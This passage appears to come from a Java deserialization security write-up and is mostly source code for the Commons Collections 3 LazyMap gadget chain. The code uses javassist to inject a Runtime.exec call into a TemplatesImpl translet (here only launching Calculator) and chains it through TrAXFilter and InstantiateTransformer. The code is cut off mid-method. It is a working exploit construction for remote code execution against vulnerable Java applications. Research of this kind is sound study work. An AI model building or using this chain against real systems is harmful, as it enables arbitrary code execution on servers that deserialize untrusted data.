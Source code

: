 <img src="./images/12.png" alt="">

### LazyMap

```java
package CommonsCollections3;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 1:20 上午
 */
public class CommonsCollections3LazyMap {

    public static void CC3() throws CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, InvocationTargetException, InstantiationException, NoSuchMethodException, ClassNotFoundException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Rvil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetShellCode = new byte[][]{shellCode};

        TemplatesImpl templates = new TemplatesImpl();
        Class _class = templates.getClass();
        Field _name = _class.getDeclaredField("_name");
        Field _bytecode = _class.getDeclaredField("_bytecodes");
        Field _tfactory = _class.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(templates, "h3rmesk1t");
        _bytecode.set(templates, targetShellCode);
        _tfactory.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map map = new HashMap();
```